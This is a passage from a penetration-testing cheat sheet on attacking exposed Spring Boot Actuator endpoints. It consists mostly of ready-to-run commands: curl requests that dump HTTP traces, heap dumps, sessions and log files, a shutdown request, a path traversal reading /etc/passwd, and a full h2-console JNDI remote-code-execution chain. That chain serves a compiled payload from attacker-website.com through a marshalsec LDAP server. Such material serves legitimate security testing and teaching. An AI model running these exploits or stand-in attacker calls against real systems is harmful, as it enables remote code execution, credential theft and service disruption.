    "filters": [
        "[[RewritePath /new_route(?<path>.*) = /${path}], order = 1]"
    ],
    "uri": "https://localhost",
    "order": 0
}
```

</details>

<details>

<summary>SpEL Injection</summary>

Applications using Spring Cloud Gateway in the version prior to `3.1.0` and `3.0.6`, are vulnerable to [CVE-2022-22947](https://spring.io/security/cve-2022-22947)  that leads to a [SpEL injection](spring-boot-actuators.md#spel-injection) attack when the Gateway Actuator endpoint is enabled, exposed and unsecured. A remote attacker could make a maliciously crafted request that could allow arbitrary remote execution on the remote host.

You may check this links for more details:&#x20;

[https://mp.weixin.qq.com/s/S15erJhHQ4WCVfF0XxDYMg](https://mp.weixin.qq.com/s/S15erJhHQ4WCVfF0XxDYMg)

[https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947)

[https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/](https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/)

</details>

### trace or httptrace

Displays HTTP trace information (by default, the last 100 HTTP request-response exchanges). It may disclose details about requests of internal applications as well as user cookies and JWT tokens.

`trace` requires an `HttpTraceRepository` bean.

```bash
curl http://<TARGET>/actuator/httptrace -i -X GET
curl http://<TARGET>/actuator/trace -i -X GET
```

### h2-console

<details>

<summary>RCE</summary>

To exploit, it requires the following conditions:

* `com.h2database.h2` dependency is used
* h2 console is enabled in Spring configuration `spring.h2.console.enabled=true`

You can gain RCE via JDNI in h2 database console:

Access the h2 console `/h2-console`. An application will refirect to `/h2-console/login.jsp?jsessionid=xxxxxx`. Catch `jsessionid` value.

Prepare a Java code for execution, you can reuse the [JNDIObject.java](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java). Compile in such a way that it is compatible with earlier JDK versions:

```bash
javac -source 1.5 -target 1.5 JNDIObject.java
```

Host compiled `JNDIObject.class` at `http://attacker-website.com/` and Set up a LDAP service with [marshalsec](https://github.com/mbechler/marshalsec):

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://attacker-website.com:80/#JNDIObject 1389
```

Trigger JNDI injection:

```bash
POST /h2-console/login.do?jsessionid=xxxxxx
Host: vulnerable-website.com
Content-Type: application/json
Referer: http://vulnerable-website.com/h2-console/login.jsp?jsessionid=xxxxxx

{
    "language": "en",
    "setting": "Generic+H2+(Embedded)",
    "name": "Generic+H2+(Embedded)",
    "driver": "javax.naming.InitialContext",
    "url": "ldap://attacker-website.com:1389/JNDIObject",
    "user": "",
    "password": ""
}

#Or curl
curl -X POST -H 'Content-Type: application/json' -d '{"language": "en","setting": "Generic+H2+(Embedded)","name": "Generic+H2+(Embedded)","driver": "javax.naming.InitialContext","url": "ldap://attacker-website.com:1389/JNDIObject","user": "","password": ""}' http://<TARGET>/h2-console/login.do?jsessionid=xxxxxx
```

</details>

### mappings

[mappings](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#mappings) displays a collated list of all `@RequestMapping` paths.

```bash
curl http://<TARGET>/actuator/mappings -i -X GET
```

### sessions

[sessions](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#sessions) allows retrieval and deletion of user sessions from a Spring Session-backed session store. Requires a Servlet-based web application using Spring Session.

```bash
curl http://<TARGET>/actuator/sessions?username=alice -i -X GET
```

### shutdown

[shutdown](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#shutdown) lets an application be gracefully shutdown. Disabled by default.

```bash
$ curl http://<TARGET>/actuator/shutdown -i -X POST
```

### heapdump

[heapdump](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#heapdump) returns a hprof heap dump file that may contain sensitive data, such as `env` properties. To retrieve data from a prof heap dump use [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) tool, check [Find password plaintext in spring heapdump using MAT](https://landgrey.me/blog/16/).

```bash
curl http://<TARGET>/actuator/heapdump -O
```

### logfile

[logfile](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#log-file) returns the contents of the logfile (if `logging.file.name` or `logging.file.path` properties have been set). Supports the use of the HTTP Range header to retrieve part of the log file's content.

```bash
curl http://<TARGET>/actuator/logfile -i -X GET
```

### logview

[spring-boot-actuator-logview](https://github.com/lukashinsch/spring-boot-actuator-logview) version before `0.2.13` is vulnerable to path traversal that allows you to retreive arbitrary files.

```bash
# retreaving /etc/passwd
curl http://<TARGET>/manage/log/view?filename=/etc/passwd&base=../../../../../
```

### dump or threaddump

[dump or threaddump](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#threaddump) performs a thread dump from the application's JVM.

```bash
curl http://<TARGET>/actuator/threaddump -i -X GET -H 'Accept: application/json'
curl http://<TARGET>/actuator/dump -i -X GET -H 'Accept: application/json'
```

## Resources

{% embed url="https://github.com/mpgn/Spring-Boot-Actuator-Exploit" %}

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators" %}
